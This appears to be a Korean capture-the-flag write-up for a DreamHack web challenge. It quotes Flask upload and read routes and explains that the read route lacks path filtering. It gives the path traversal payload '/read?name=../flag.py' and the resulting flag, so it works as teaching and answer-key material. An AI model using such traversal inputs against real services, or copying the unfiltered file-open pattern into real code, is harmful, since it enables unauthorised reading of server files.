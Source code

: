 # [DreamHack] file-download-1

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> File Download 취약점이 존재하는 웹 서비스입니다.
> flag.py를 다운로드 받으면 플래그를 획득할 수 있습니다.
>
> Release: [file-download-1.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8560357/file-download-1.zip)

## Analysis

### /

```python
@APP.route('/')
def index():
    files = os.listdir(UPLOAD_DIR) # uploads 디렉토리의 파일 목록 출력
    return render_template('index.html', files=files)
```

### /upload

```python
@APP.route('/upload', methods=['GET', 'POST'])
def upload_memo():
    if request.method == 'POST':
        filename = request.form.get('filename') # 파일 이름 입력
        content = request.form.get('content').encode('utf-8') # 파일 내용 입력

        if filename.find('..') != -1: # '..' 필터링 -> path traversal 방지
            return render_template('upload_result.html', data='bad characters,,')

        with open(f'{UPLOAD_DIR}/{filename}', 'wb') as f: # 파일 생성
            f.write(content) # 내용 작성

        return redirect('/')

    return render_template('upload.html')
```

### /read

```python
@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '') # 파일 이름 입력 (필터링 X)

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read() # 파일 내용 반환
    except (IsADirectoryError, FileNotFoundError):
        error = True


    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)
```

`/` 페이지에서 파일을 선택하면 그 파일의 내용을 읽어온다. GET으로 전달되는 파일 이름에 필터링이 없으므로, path traversal을 통해 `flag.py` 파일을 읽어올 수 있다.

## Exploit

`/read?name=../flag.py`로 접속하면 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/104156058/165235301-a2914a6f-2748-4754-adc6-28210749723c.png)

```
flag: DH{uploading_webshell_in_python_program_is_my_dream}
```